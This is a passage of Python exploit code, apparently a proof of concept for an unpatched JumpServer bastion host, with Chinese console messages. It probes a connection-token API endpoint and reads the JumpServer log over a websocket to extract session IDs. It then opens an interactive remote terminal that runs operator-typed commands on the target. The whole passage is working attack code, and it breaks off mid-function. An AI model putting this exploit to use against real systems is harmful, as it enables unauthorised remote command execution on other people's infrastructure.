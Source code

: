 ```
    print('+------------------------------------------')

class ws_long(WebSocketClient):

    def opened(self):
        req = '{"task":"/opt/jumpserver/logs/jumpserver"}'
        self.send(req)

    def closed(self, code, reason=None):
        print("Closed down:", code, reason)

    def received_message(self, resp):
        resp = json.loads(str(resp))
        # print(resp)
        data = resp['message']
        if "File" in data:
            data = ""
        print(data)


async def send_msg(websocket, _text):
    if _text == "exit":
        print(f'you have enter "exit", goodbye')
        await websocket.close(reason="user exit")
        return False
    await websocket.send(_text)
    recv_text = await websocket.recv()
    print(re.findall(r'"data":"(.*?)"', recv_text))


async def main_logic(target_url):
    print("\033[32m[o] 正在连接目标: {}\033[0m".format(target_url))
    async with websockets.connect(target_url) as websocket:
        recv_text = await websocket.recv()
        resws = json.loads(recv_text)
        id = resws['id']
        print("\033[36m[o] 成功获取 ID: {}\033[0m".format(id))

        inittext = json.dumps({"id": id, "type": "TERMINAL_INIT", "data": "{\"cols\":164,\"rows\":17}"})
        await send_msg(websocket, inittext)
        for i in range(7):
            recv_text = await websocket.recv()
            print(re.findall(r'"data":"(.*?)"', recv_text))

        while True:
            cmd = str(input("\033[35mcmd  >>> \033[0m"))
            cmdtext = json.dumps({"id": id, "type": "TERMINAL_DATA", "data": cmd + "\r\n"})
            await send_msg(websocket, cmdtext)
            for i in range(1):
                recv_text = await websocket.recv()
                print(re.findall(r'"data":"(.*?)"', recv_text))


def POC_1(target_url):
    vuln_url = target_url + "/api/v1/users/connection-token/?user-only=1"
    response = requests.get(url=vuln_url, timeout=5)
    if response.status_code == 401 or response.status_code == 403 or response.status_code == 404:
        print("\033[32m[o] 目标 {} JumpServer堡垒机为未修复漏洞版本，请通过日志获取关键参数\033[0m".format(target_url))
        ws_open = str(input("\033[32m[o] 是否想要提取日志（Y/N） >>> \033[0m"))
        if ws_open == "Y" or ws_open == "y":
            ws = target_url.strip("http://")
            try:
```